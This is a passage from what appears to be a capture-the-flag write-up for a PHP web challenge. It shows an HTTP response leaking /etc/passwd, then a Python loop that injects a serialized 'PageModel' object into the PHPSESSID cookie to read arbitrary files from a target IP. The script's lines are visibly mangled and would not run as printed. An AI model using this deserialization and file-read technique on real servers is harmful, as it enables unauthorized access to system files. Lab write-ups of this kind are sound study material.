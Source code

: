 Reponse:

{% highlight bash %}
HTTP/1.1 200 OK  
  
Server: nginx  
Date: Sat, 29 May 2021 21:25:41 GMT  
Content-Type: text/html; charset=UTF-8  
Connection: close  
X-Powered-By: PHP/7.4.15  
Content-Length: 1262  
  
root:x:0:0:root:/root:/bin/ash  
bin:x:1:1:bin:/bin:/sbin/nologin  
daemon:x:2:2:daemon:/sbin:/sbin/nologin  
adm:x:3:4:adm:/var/adm:/sbin/nologin  
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin  
sync:x:5:0:sync:/sbin:/bin/sync  
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown  
halt:x:7:0:halt:/sbin:/sbin/halt  
mail:x:8:12:mail:/var/mail:/sbin/nologin  
news:x:9:13:news:/usr/lib/news:/sbin/nologin  
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin  
operator:x:11:0:operator:/root:/sbin/nologin  
man:x:13:15:man:/usr/man:/sbin/nologin  
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin  
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin  
ftp:x:21:21::/var/lib/ftp:/sbin/nologin  
sshd:x:22:22:sshd:/dev/null:/sbin/nologin  
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin  
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin  
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin  
games:x:35:35:games:/usr/games:/sbin/nologin  
cyrus:x:85:12::/usr/cyrus:/sbin/nologin  
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin  
ntp:x:123:123:NTP:/var/empty:/sbin/nologin  
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin  
guest:x:405:100:guest:/dev/null:/sbin/nologin  
nobody:x:65534:65534:nobody:/:/sbin/nologin  
www:x:1000:1000:1000:/home/www:/bin/sh  
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
{% endhighlight %}

Therefore, the server is most likely performing some sort of include statement on the file parameter. To efficiently enumerate files on the server, a python script was developed to quickly perform the operation of modifying the file parameter and base64 encoding the object:

{% highlight python %}
import requests from base64 
import b64encodewhile(True):  
     
   f = input("$ ")  
   payload = '''O:9:"PageModel":1:{s:4:"file";s:%d:"%s";}''' % (len(f.rstrip()),f.rstrip())  
   payload = b64encode(payload.encode())  
   cookies = { "PHPSESSID" : payload.decode() }  
   html = requests.get("http://167.99.88.212:30746",cookies=cookies).text   if len(html) > 0:  
       print(html)
{% endhighlight %}
